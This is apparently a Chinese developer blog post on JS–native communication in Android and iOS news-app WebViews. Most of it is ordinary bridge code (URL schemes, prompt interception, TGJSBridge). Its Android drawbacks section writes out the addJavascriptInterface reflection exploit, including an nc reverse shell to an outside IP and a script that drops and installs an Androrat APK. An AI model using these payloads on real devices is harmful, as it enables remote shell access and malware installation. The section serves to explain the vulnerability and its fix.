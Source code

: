 ```yaml
---
layout: post
title: 在APP中实现js与native通信
categories:
- 前端
tags:
- native通信
- 新闻客户端
- jsbridge
---
```


在订制腾讯新闻客户端的汽车页卡时，有些页面是用HTML页面实现的。比如车系详情页，车型详情页。这类页面因为汽车运营的关系具有不定期更新的特点。比如车型降价，新车上市等。使用HTML页面之后，有些数据需要从客户端传递过来，也有一些数据需要从页面传递到客户端，也就是HTML与客户端之间通信的问题。

##Android平台
###Android调用JS
{% highlight java %}
WebView.loadUrl("javascript:onJsAndroid()");
{% endhighlight %}

###JS调用Android
{% highlight java %}
// Android java代码
mWebView.addJavascriptInterface(new Class(),"android");  

public class Class(){
  @JavascriptInterface
  public void methodOne(){

  }
} 

// js 代码
window.android.methodOne();
{% endhighlight %}

###弊端
在Android 4.2之前的版本中，通过addJavascriptInterface然后利用java的反射机制，可以回调java类中的内置静态变量。

首先，通过java可以反弹shell，这样可以读写Android文件系统。
{% highlight javascript %}
function execute(cmdArgs)
{
  return XXX.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
}
execute(["/system/bin/sh","-c","nc 192.168.1.9 8088|/system/bin/sh|nc 192.168.1.9 9999"]);
alert("ok3");
{% endhighlight %}

其次，可以对网页挂马，安装apk到手机中
{% highlight javascript %}
function execute(cmdArgs)
{
  return xxx.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
} 
 
var armBinary1 = "x50x4Bx03x04x14x00x08x00x08x00x51x8FxCAx40x00x00x00x00x00x00x00x00x00x00x00x00x13x00x04x00x72x65x73x2Fx6Cx61x79x6Fx75x74x2Fx6Dx61x69x6Ex2Ex78x6Dx6CxFExCAx00x00xADx52x31x6FxD3x40x18xFDx2Ex76xAEx86xC4x69x5Ax3Ax54xA2x12xA9xC4"
 
var armBinary2="x1BxB0x65x0AxADx23xC2x30x64xDFxEExA1x0DxA4xE8x3Fx61x80xEExBCxE1xE7x7Bx4Ax25x6Fx8Bx36x71xC3x80x81x58xDBxC9x8Fx53x9FxEEx8Ax45xAFx23x54x4AxCFx2Bx52xF2x33x84xBAx82x36xC4x0Dx08xAFxC2x61x8ExD8x7Bx0BxFCx88x4Ax25x24x8Cx22xFAx76x44x78x5Ex99x62x30x44x8DxDBx74x94"
 
var armBinary3="…"
var armBinary4="…"
// ……
var patharm = "/mnt/sdcard/Androrat.apk";
var a=execute(["/system/bin/sh","-c","echo -n +armBinary1+ > " + patharm]);

execute(["/system/bin/sh","-c","echo -n +armBinary2+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo  -n +armBinary3+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo -n +armBinary4+ >> " + patharm]);
execute(["/system/bin/sh","-c","adb install /mnt/sdcard/Androrat.apk"]);

{% endhighlight %}
以上流程，可以将apk进行拆分，利用echo写入到文件系统中，然后利用adb进行安装。

在Android 4.2版本中，开始使用@JavascriptInterface，然后在java代码中验证js调用的每个参数，屏蔽攻击代码，可以防止攻击。

汽车垂直化方案
新闻客户端提供两种js调用native的方式

* url scheme方式
通过伪协议"jsbridge://get_with_json_data?json=params", native代码重写shouldOverrideUrlLoading来做相关接口的实现和白名单控制
{% highlight javascript %}
/**
 * webview代码中通过监听onLoadResource触发调用Java方法
 */
function resourceCall() {
  var paramsArray = S.call(arguments, 0);
  var img = new Image();
  img.onload = function() {
    img = null;
  };
  img.src = 'jsbridge://get_with_json_data?json=' + encodeURIComponent(arrayToJsonString(paramsArray));
}
{% endhighlight %}
* prompt方式
这种方式是通过native重写onJsPrompt，拦截webview中的window.prompt并且获取其中的参数，处理完成之后需要调用JsPromptResult的confirm方法。
{% highlight javascript %}
/**
 * 通过prompt调用Java对象方法
 */
function promptCall() {
  var paramsArray = S.call(arguments, 0);
  var jsonResult = prompt(arrayToJsonString(paramsArray));
  var re = JSON.parse(jsonResult);
  if (re.code != 200) {
    throw "call error, code:" + re.code + ", message:" + re.result;
  }
  return re.result;
}
{% endhighlight %}

更多Android下js调用native的方案见此：[【Android WebView】Js调用Native的四种方式](http://km.oa.com/group/18297/articles/show/217614)

将与native通信用到的接口挂载在window.XXX下，调用window.XXX.YYY就可以调用native的方法。

##iOS平台
###iOS调用JS
{% highlight objective-c %}
// stringByEvaluatingJavaScriptFromString可以将字符串当做js来执行，在全局变量中定义js方法之后，OC就可以调用
- (void)webViewDidFinishLoad:(UIWebView *)webView {  
  NSString *currentURL = [webView stringByEvaluatingJavaScriptFromString:@"document.location.href"];
}
{% endhighlight %}

###JS调用iOS
js调用iOS，用到了开源库[TGJSBridge](https://github.com/ohsc/TGJSBridge)。其基本原理是利用伪协议"jsbridge://PostNotificationWithId-"，在native代码shouldStartLoadWithRequest中捕获并解析请求，然后调用相关的native逻辑。使用流程如下。
{% highlight javascript %}
// js向native发送修改页面标题的通知
jsBridge.postNotification('setTitle', {
  title : data.value
});
{% endhighlight %}
{% highlight objective-c %}
// 初始化jsBridge
- (void)webViewDidFinishLoad:(UIWebView *)webView
{
    [super webViewDidFinishLoad:webView];
    NSString *jsBridgePath = [[NSBundle mainBundle] pathForResource:@"TGJSBridge" ofType:@"js"];
    NSString *jsBridge = [NSString stringWithContentsOfFile:jsBridgePath encoding:NSUTF8StringEncoding error:nil];
    [self.webView stringByEvaluatingJavaScriptFromString:jsBridge];
    
    [self.webView stringByEvaluatingJavaScriptFromString:@"window.onJsBridgeReady()"];
    
    [self showLoading:NO animated:YES];
}

// 响应js端发送的通知"setTitle",修改页面标题
- (void)jsBridge:(TGJSBridge *)bridge setTitleWithUserInfo:(NSDictionary *)userInfo fromWebView:(UIWebView *)webview
{
//    NSString *titleName = QNString([userInfo objectForKey:@"title"], _carSerialName);
    ((QNTitleView *)self.qn_navigationItem.titleView).text = QNString([userInfo objectForKey:@"title"], _carSerialName);
}
{% endhighlight %}

在js调用iOS时，有一个前提，就是native代码中需要首先完成jsBridge的初始化。TGJSBridge提供了一个jsBridgeReady的事件，js端监听jsBridgeReady事件并在事件处理函数中再向native发送通知。

但是有个问题，新闻客户端将TGJSBridge.js文件打包到了安装包中，web页面无需再引入此js文件。在处理像设置页面标题这种问题时，即页面加载完成之后就需要马上向native发送通知的情况，就会有问题。

* js端直接调用jsBridge.bind('jsBridgeReady')——jsBridge可能还未初始化，并不在window的context中。
* 将jsBridge初始化操作提前，放在webViewDidStartLoad——jsBridgeReady已经被触发，但是页面js端还没开始监听jsBridgeReady事件。

native与js的jsBridge初始化调用顺序相互依赖，需要处理好，才能解决像setTitle这种操作。

**新闻客户端汽车页卡车系详情页的解决方式**
{% highlight javascript %}
//提供给ios调用的方法
var mutex = false;
window.onJsBridgeReady = function(){
  if(mutex){
    return;
  }
  try{
    nanoEvtProxy.on('iosnews:settit', function(data){
      jsBridge.postNotification('setTitle', {
        title : data.value
      });
    });
    nanoEvtProxy.trigger('iosnews:ready');
  }catch(e){

  }
  mutex = true;
}

// iosnews:ready被触发之后，说明native已经完成jsBridge初始化工作。
// 然后再触发iosnews:settit事件，
// 而在上面的代码中iosnews:settit事件已经完成监听，可以向native发送通知。
nanoEvtProxy.on('iosnews:ready', function(e, data){
  nanoEvtProxy.trigger('iosnews:settit', data);  
});
{% endhighlight %}

{% highlight objective-c %}
- (void)webViewDidFinishLoad:(UIWebView *)webView
{
    [super webViewDidFinishLoad:webView];
    
    // jsBridge初始化代码
    
    // 页面加载完成之后调用页面中定义的onJsBridgeReady方法
    [self.webView stringByEvaluatingJavaScriptFromString:@"window.onJsBridgeReady()"];
    
}
{% endhighlight %}

以上流程中，各种事件的监听和触发确实比较绕。但是梳理下来，是可以保证页面标题能正常而且尽可能快的被设置的。

##参考
[WebView中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)

[【Android WebView】Js调用Native的四种方式](http://km.oa.com/group/18297/articles/show/217614)

[WebView中JavaScript与Objective-C的交互](http://blog.csdn.net/perry_xiao/article/details/8027249)
